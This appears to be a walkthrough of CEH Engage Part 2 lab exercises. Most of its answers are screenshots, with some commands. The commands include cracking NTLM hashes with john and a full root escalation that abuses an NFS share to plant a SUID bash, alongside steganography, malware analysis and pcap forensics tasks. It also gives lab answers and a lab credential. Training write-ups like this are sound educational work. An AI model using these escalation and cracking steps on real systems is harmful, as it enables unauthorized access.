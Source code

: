 # 2️⃣ CEH Engage Part 2



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user James?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user Jones?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



You have got user-level access to the machine with IP 172.16.0.11. Your task is to escalate the privileges to that of the root user on the machine and read the content in the rootflag.txt file. (Note: all the flag files are located at the root, Desktop, Documents, or Downloads folder for the respective users/machines). Note: use LinuxPass when asked for machine password.

```
nmap -sV <IP addr>
```

```
sudo apt-get install nfs-common
```

```
showmount -e <IP addr>

mkdir /tmp/nfs

sudo mount -t nfs <IP addr>:/home /tmp/nfs

cd /tmp/nfs

sudo cp /bin/bash

sudo chmod +s bash

ls -la bash

ssh -l ubuntu <IP addr>

cd /home

./bash -p

id
```



<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



An employee in your organization is suspected of sending important information to an accomplice outside the organization. The incident response team has intercepted some files from the employee's system that they believe have hidden information. You are asked to investigate a file named Confidential.txt and extract hidden information. Find out the information hidden in the file. Note: The Confidential.txt file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

```
SNOW.EXE -C Confidential.txt
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



The incident response team has intercepted an image file from a communication that is supposed to have just text. You are asked to investigate the file and check if it contains any hidden information. Find out the information hidden in the file. Note: The vacation.bmp file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



You are a malware analyst working for CEHORG. During your assessment within your organisation's network, you found a malware face.exe. The malware is extracted and placed at C:\Users\Admin\Documents in the EH Workstation – 2 machine. Analyze the malware and find out the File pos for KERNEL32.dll text. (Hint: exclude zeros.)



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











Analyze an ELF executable (Sample-ELF) file placed at C:\Users\Admin\Documents in the EH Workstation – 2 machines to determine the CPU Architecture it was built for.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>





You have been given a task to audit the passwords of a server present in CEHORG network. Find out the password of the user Adam and submit it. (Note: Use Administrator/ CSCPa\$$ when asked for credentials).

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>









Use Yersinia on the “EH Workstation – 1” (Parrot Security) machine to perform the DHCP starvation attack. Analyze the network traffic generated during the attack and find the Transaction ID of the DHCP Discover packets.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



CEHORG suspects a possible sniffing attack on a machine in its network. The organization has retained the network traffic data for the session and stored it in the Documents folder in EH Workstation – 2 (Windows 11) machine as sniffsession.pcap. You have been assigned a task to analyze and find out the protocol used for sniffing on its network.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



As an ethical hacker, you are tasked to analyze the traffic capture file webtraffic.pcapng. Find out the packet's id that uses ICMP protocol to communicate. Note: The webtraffic.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



An attacker has created a custom UDP packet and sent it to one of the machines in the CEHORG. You have been given a task to study the ""CustomUDP.pcapng"" file and find the data size of the UDP packet (in bytes). Note: The CustomUDP.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



A denial-of-service attack has been launched on a target machine in the CEHORG network. A network session file "DoS.pcapng" has been captured and stored in the Documents folder of the EH Workstation - 2 machine. Find the IP address of the attacker's machine.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



A machine in CEHORG network has been installed with a spyware by an Ex-employee. You are given a task to connect to the attacked machine to find out the hidden flag in the documents folder.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>









A disgruntled employee in CEHORG has used the Covert\_TCP utility to share a secret message with another user in the CEHORG network. Covert\_TCP manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can be used to hide the data inside IP header fields. The employee used the IP ID field to hide the message. The network capture file “Capture.pcapng” has been retained in the “C:\Users\Administrator\Documents” directory of the “EH Workstation – 2” machine. Analyze the session to get the message that was transmitted.



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>





CEHORG has assigned you with analysing the snapshot of the operating system registry and perform the further steps as part of dynamic analysis and find out the whether the driver packages registry is changed. Give your response as Yes/No.

\-> Yes





Perform windows service monitoring and find out the service type associated with display name "afunix".



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





CEHORG has found that one of its web application movies.cehorg.com running on its network is leaking credentials in plain text. You have been assigned a task of analysing the movies.pcap file and find out the leaked credentials. Note: The movies.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine. Make a note of the credentials obtained in this flag, it will be used in the Part 4 of CEH Skill Check.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



CEHORG hosts a datacenter for its bussiness clients. While analyzing the network traffic it was observed that there was a huge surge of incoming traffic from multiple sources. You are given a task to analyze and study the DDoS.pcap file. The captured network session (DDoS.pcapng) is stored in the Documents folder of the EH Workstation -2 machine. Determine the number of machines that were used to initiate the attack.

\-> 3

